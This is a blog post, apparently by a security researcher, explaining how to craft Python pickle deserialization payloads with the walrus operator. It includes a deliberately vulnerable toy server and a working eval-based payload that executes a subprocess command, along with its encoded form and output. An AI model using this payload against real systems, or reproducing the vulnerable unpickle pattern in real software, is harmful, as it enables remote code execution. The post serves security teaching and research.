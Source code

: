 ```yaml
---
layout: post
title: "Simpler unpickle payloads with the walrus operator"
date: 2022-01-07 01:00
type: post
published: true
comments: true
categories: software
---
```


When exploiting Python deserialization, specifically, Pickle, vulnerabilities you need to craft a payload consisting of a collection of arguments and a callable that is available on the server. Most commonly you can use the `eval` function and a string to be evaluated. This is fairly flexible and from here you can typically import the `os` module and call `os.system` to do whatever you want. Sometimes there can be some limitations in place, for example, you might not get the output of the application directly and it might be blocking outbound connections preventing reverse shells. In some situations you need the result of the unpickle operation to return an object with specific properties. If you are lucky and convenient classes exist on the target and you have knowledge of them you might get away with simply constructing one of them. If this is not the case it is slightly trickier.

A big issue is that `eval` only evaluates a single expression so you can't declare your own classes since that is a statement, not an expression. With the introduction of the new walrus operator in Python, this is now much easier since we can now perform assignments as an expression. The key idea is that we can create a tuple where each element in the tuple can access items which have been assigned in a previous element. For example, this is a valid Python expression which will evaluate to `2`.

```python
(a:=1, b:=a+a, b)[-1]
```

We can use the same pattern to construct completely arbitrary objects. As a toy example, let's say you have a server like this which takes some input and unpickles it:

```python
#!/usr/bin/env python3

import base64
import pickle

class Item(object):
    def __init__(self, text):
        self.text = text

    def process(self):
        return self.text.upper().encode()

while True:
    try:
        b64data = input('Pickled object: ')
        data = base64.b64decode(b64data)
        item = pickle.loads(data)
        res = item.process()
        print(f'Result: {res.decode()}')
    except KeyboardInterrupt:
        print('Exiting') 
        break
    except Exception as e:
        print(f'An error occurred while processing data: {e}')
```

Let's pretend that we do not get any stdout data from the unpickling and that no outbound connections are allowed so a reverse shell won't do. Note that the unpickled object needs to have a `.process()`method which returns something which we can call `.decode()` on which in turn should return a string. We can then use the following code to craft such a payload:

```python
#!/usr/bin/env python3

import base64
import pickle

class Payload(object):
    def __reduce__(self):
        return eval, ('(a:=type("A", (object,), {}),b:=a(),b.__setattr__("process", lambda: __import__("subprocess").check_output("id")),b)[-1]',)

payload = Payload()
payload = base64.b64encode(pickle.dumps(payload)).decode()
print(payload)
```

The key element here is the Python expression:

```python
(
    a:=type("A", (object,), {}),
    b:=a(),
    b.__setattr__("process",
        lambda: __import__("subprocess").check_output("id")
    ),
    b
)[-1]
```

The first element of the tuple creates a new type called `A` and assigns it to `a`. We then instantiate an object of this type in variable `b`. We then set the `.process` attribute of this object to be a function which will call the `id` command and return the output. Finally we put the object itself as the last element of the tuple and use the `[-1]`indexing operation to extract our crafted object. Running this code and providing it as input to our server results in the following:

```
Pickled object: gASVlAAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIx4KGE6PXR5cGUoIkEiLCAob2JqZWN0LCksIHt9KSxiOj1hKCksYi5fX3NldGF0dHJfXygicHJvY2VzcyIsIGxhbWJkYTogX19pbXBvcnRfXygic3VicHJvY2VzcyIpLmNoZWNrX291dHB1dCgiaWQiKSksYilbLTFdlIWUUpQu
Result: uid=1000(zetatwo) gid=1000(zetatwo) groups=1000(zetatwo)
```

I hope this little trick come in handy whenever you are dealing with Python unpickle vulnerabilities.

